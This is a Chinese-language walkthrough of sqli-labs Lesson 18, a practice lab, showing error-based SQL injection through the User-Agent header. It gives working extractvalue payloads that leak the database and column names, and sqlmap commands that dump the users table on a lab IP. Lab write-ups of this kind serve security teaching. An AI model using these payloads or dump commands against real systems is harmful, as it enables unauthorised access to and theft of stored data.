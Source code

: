 ```yaml
---
title: sqli-labs lession 18 POST基于错误的Uagent字段数据头注入
date: 2018-09-28 19:30:37
tags:
categories: sql注入
---
```

# sqli-labs lession 18 POST基于错误的Uagent字段数据头注入 #
---

## 登录界面 ##

![1](/img/sql/Lesson-18/1.png)

## 分析 ##

显示了咱的ip地址...嗯...测试了下Username和Password的输入数据,发现没有什么搞头。用个admin账号登录成功试了下。

![2](/img/sql/Lesson-18/2.png)

把我的User-Agent信息显示了出来。

User-Agent干什么用呢:

![3](/img/sql/Lesson-18/3.png)

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0`

对照一下手册查看信息

Mozilla/5.0 (platform; rv:geckoversion) Gecko/geckotrail Firefox/firefoxversion

* Mozilla/5.0 是一个通用标记符号，用来表示与 Mozilla 兼容，这几乎是现代浏览器的标配。
  
* platform 用来说明浏览器所运行的原生系统平台（例如 Windows、Mac、Linux 或 Android），以及是否运行在手机上。搭载 Firefox OS 的手机仅简单地使用了 "Mobile" 这个字符串；因为 web 本身就是平台。注意 platform 可能会包含多个使用 "; " 隔开的标记符号。
  
* rv:geckoversion 表示 Gecko 的发布版本号（例如  "17.0"）。在近期发布的版本中，geckoversion 表示的值与 firefoxversion 相同。
  
* Gecko/geckotrail 表示该浏览器基于 Gecko 渲染引擎。

* 在桌面浏览器中， geckotrail  是固定的字符串 "20100101" 。
  
* Firefox/firefoxversion 表示该浏览器是 Firefox，并且提供了版本号信息（例如  "17.0"）。

拿到了我的信息总要有点东西留给我的吧。

查看源码：

![4](/img/sql/Lesson-18/4.png)

对账户密码做了过滤,登录成功后接着又把ip地址和User-Agent信息保存下了数据库的`uagents`表中。

![5](/img/sql/Lesson-18/5.png)

因为插入User-Agent信息插入数据表的时候没有检查,可以在此处利用报错注入。

## 注入 ##

先用正确账号登录。

![6](/img/sql/Lesson-18/6.png)

再在`User-Agent`构造报错。

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and '1'='1`

检查出单引号闭合。

![7](/img/sql/Lesson-18/7.png)

payload:

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and  extractvalue(null,concat(0x7e,database(),0x7e)) and '1'='1`

![8](/img/sql/Lesson-18/8.png)

中间与Lesson-17一样,直接上获取列的图

![9](/img/sql/Lesson-18/9.png)

`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and  extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e)) and '1'='1`

## SQLMAP ##

```
--leveal 

level: 设置检测的方方面面和测试用例, 默认是1,会尝试POST和GET, 2:Cookie也会加入检测, 3:User-Agent和Referer也会检测, 更大的值会增加用例量

--user-agent

指定User-Agent

--data

指定请求的内容

--threads

指定并发线程

--dbms

指定后端数据库,给定后端数据库的类型可以减少减少无关的测试用例.

--fresh-queries 

fresh-queries会忽略之前的查询结果,进行重新请求操作

--flush-session

flush-session会清空当前URL相关的session
```

`sqlmap -u http://10.60.250.66/sqlilabs/Less-18/ --data "uname=admin&passwd=admin&submit=Submit" --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and '1'='1" --level 4 --threads 10 --dbms mysql --fresh-queries --flush-session`

![10](/img/sql/Lesson-18/10.png)

`sqlmap -u http://10.60.250.66/sqlilabs/Less-18/ --data "uname=admin&passwd=admin&submit=Submit" --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0' and '1'='1" -D security -T users --columns --dump`

![11](/img/sql/Lesson-18/11.png)